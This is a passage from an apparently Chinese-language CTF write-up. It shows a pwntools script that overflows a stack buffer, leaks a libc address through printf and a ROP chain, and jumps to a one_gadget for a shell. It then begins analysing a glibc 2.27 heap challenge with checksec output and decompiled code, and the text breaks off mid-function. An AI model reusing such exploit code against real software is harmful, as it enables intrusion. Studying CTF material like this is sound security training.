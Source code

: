 ```python  
string = 0x400875
pop_rsi_r15 = 0x0000000000400821
def exp():
    p.recvuntil("name: ")
    p.sendline("300")
    padding = "a"*136
    payload = padding 
    payload += p64(pop_rdi_ret) 
    payload += p64(string) 
    payload += p64(pop_rsi_r15) 
    payload += p64(elf.got['__libc_start_main'])  
    payload += "a"*8 
    payload += p64(elf.plt['printf']) 
    payload += p64(0x4006d2)
    p.send(payload)
    libc_start_main_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = libc_start_main_addr - libc.sym['printf']
    one_gadget = libc_base + 0x4f2c5
    log.success("libc_start_main_addr==>" + hex(libc_start_main_addr))
    log.success("libc_base==>" + hex(libc_base))
    p.recvuntil("name: ")
    p.sendline("300")
    padding = "a"*136
    payload = padding 
    payload += p64(one_gadget)
    p.recvuntil("name? ")
    p.send(payload)
    p.interactive()
exp()
```  
## sales_office  
glibc2.27,有tcache，没弄过，感觉要凉  
### 分析    
```shell  
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```  
got表可写  
有以下功能  
```shell  
  add
  Show
  free
```  
啊没有edit  
```C++  
int buy()
{
  int v0; // ebx
  void **v2; // rbx
  signed int v3; // [rsp+Ch] [rbp-14h]

  if ( num > 12 )
    puts("You have no money.");
  v0 = num;
  area[v0] = malloc(0x10uLL);
  puts("Please input the size of your house:");
  v3 = read_int("Please input the size of your house:");
  if ( v3 > 96 )
```